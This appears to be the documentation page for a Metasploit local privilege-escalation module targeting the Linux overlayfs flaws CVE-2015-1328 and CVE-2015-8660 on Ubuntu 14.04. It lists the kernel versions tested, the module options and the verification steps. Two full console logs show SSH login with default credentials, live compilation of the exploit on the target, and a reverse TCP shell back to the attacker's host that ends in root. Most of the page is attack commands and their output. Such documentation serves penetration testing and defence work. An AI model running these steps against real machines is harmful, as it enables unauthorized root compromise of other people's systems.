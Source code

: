 ## Creating A Testing Environment

This module has been tested against:

  1. CVE-2015-1328
    1. Ubuntu 14.04
      1. 3.13.0-24 (binary version of exploit compiled on)
      2. 3.19.0-20
      3. 3.19.0-21 (not vuln, exploit failed)
      4. 3.13.0-55 (not vuln, exploit failed)
  2. CVE-2015-8660
    1. Ubuntu 14.04
      1. 3.19.0-41 (binary version of exploit compiled on)

Untested against

  1. Fedora (code included to identify vuln versions)
  2. Redhat (description includes vuln kernel versions)

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/overlayfs_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **COMPILE**

  If we should attempt to compile on the system.  Defaults to Auto, which checks if `gcc` is installed

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

## Scenarios

### CVE-2015-8660 against Ubuntu 14.04 with kernel 3.19.0-41

#### Initial Access

    resource (/root/Text-1.txt)> use auxiliary/scanner/ssh/ssh_login
    resource (/root/Text-1.txt)> set rhosts 192.168.2.156
    rhosts => 192.168.2.156
    resource (/root/Text-1.txt)> set username ubuntu
    username => ubuntu
    resource (/root/Text-1.txt)> set password ubuntu
    password => ubuntu
    resource (/root/Text-1.txt)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 3.19.0-41-generic #46~14.04.2-Ubuntu SMP Tue Dec 8 17:46:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:39027 -> 192.168.2.156:22) at 2016-10-04 22:48:44 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

    resource (/root/Text-1.txt)> use exploit/linux/local/overlayfs_priv_esc
    resource (/root/Text-1.txt)> set verbose true
    verbose => true
    resource (/root/Text-1.txt)> set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    resource (/root/Text-1.txt)> set session 1
    session => 1
    resource (/root/Text-1.txt)> set target 1
    target => 1
    resource (/root/Text-1.txt)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (/root/Text-1.txt)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if mount points exist
    [+] /tmp/haxhax not created
    [+] Kernel 3.19.0.pre.41.pre.generic is vulnerable to CVE-2015-8660
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Checking if mount points exist
    [+] /tmp/haxhax not created
    [+] Kernel 3.19.0.pre.41.pre.generic is vulnerable to CVE-2015-8660
    [*] Writing to /tmp/svF1U2Ya.c (2356 bytes)
    [*] Max line length is 65537
    [*] Writing 2356 bytes in 1 chunks of 8098 bytes (octal-encoded), using printf
    [*] Compiling /tmp/svF1U2Ya.c
    [*] Writing to /tmp/fHCJO1ex (155 bytes)
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Exploiting...
    [*] Sending stage (36 bytes) to 192.168.2.156
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.156:44823) at 2016-10-04 22:48:57 -0400
    [+] Deleted /tmp/svF1U2Ya.c
    [+] Deleted /tmp/fHCJO1ex
    
    3986817421
    viRVXKxRruOuDKwEBYAscFvJPPrtQbTO
    true
    zxrnfClHzgOcewXyEqQeEAcHsQmsEPtk
    cqdStYFUGluqJkpgfGAkPvcVgoKTtJlY
    EOzlAFTpQsoXMWIicFiKHxsVjjlFpspC
    true
    FgIyOJMyeREcjxpsbWkNDZNtuUGYmBtt
    omnusQCOqEdrUTbMLtDmXibhFAVQuTAz
    VPsVgFTxVwskShumsJkambKWMQhifDJi
    whoami
    root
    uname -a
    Linux Ubuntu14 3.19.0-41-generic #46~14.04.2-Ubuntu SMP Tue Dec 8 17:46:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux

### CVE-2015-1328 against Ubuntu 14.04 with kernel 3.13.0-24

#### Initial Access

    resource (/root/Text-1.txt)> use auxiliary/scanner/ssh/ssh_login
    resource (/root/Text-1.txt)> set rhosts 192.168.2.156
    rhosts => 192.168.2.156
    resource (/root/Text-1.txt)> set username ubuntu
    username => ubuntu
    resource (/root/Text-1.txt)> set password ubuntu
    password => ubuntu
    resource (/root/Text-1.txt)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:42139 -> 192.168.2.156:22) at 2016-10-04 22:54:50 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

    resource (overlay.rc)> use exploit/linux/local/overlayfs_priv_esc
    resource (overlay.rc)> set verbose true
    verbose => true
    resource (overlay.rc)> set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    resource (overlay.rc)> set target 0
    target => 0
    resource (overlay.rc)> set session 1
    session => 1
    resource (overlay.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (overlay.rc)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if mount points exist
    [+] /tmp/ns_sploit not created
    [+] Kernel 3.13.0.pre.24.pre.generic is vulnerable to CVE-2015-1328
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Checking if mount points exist
    [+] /tmp/ns_sploit not created
    [+] Kernel 3.13.0.pre.24.pre.generic is vulnerable to CVE-2015-1328
    [*] Writing to /tmp/JmK51Dpa.c (3714 bytes)
    [*] Max line length is 65537
    [*] Writing 3714 bytes in 1 chunks of 13319 bytes (octal-encoded), using printf
    [*] Writing to /tmp/ofs-lib.c (439 bytes)
    [*] Max line length is 65537
    [*] Writing 439 bytes in 1 chunks of 1563 bytes (octal-encoded), using printf
    [*] Compiling /tmp/JmK51Dpa.c
    [*] Writing to /tmp/R6TrMF7f (155 bytes)
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Exploiting...
    [*] Sending stage (36 bytes) to 192.168.2.156
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.156:35876) at 2016-10-14 11:26:49 -0400
    [!] Tried to delete /tmp/ofs-lib.c, unknown result
    [+] Deleted /tmp/JmK51Dpa
    
    2356964145
    psMfOJcKGKnafhAvALIeSFNegauafmux
    RHxxKeTrEKLTMmssPTZjlJvkpblZjWSH
    KWETRaFhNLLRkUbhRkRoflvdRdbJBPFP
    true
    ORoIgajQlzSvaciHEGqEvQZqLZMpJDjQ
    dTdIcyWRpQOpEHizUhOQkDVqQZaxQIFR
    UCINXsLPGwYDBqnRKbFyLFOzkbifFPiF
    sh: 0: can't access tty; job control turned off
    # # # whoami
    root
    # uname -a
    Linux Ubuntu14 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
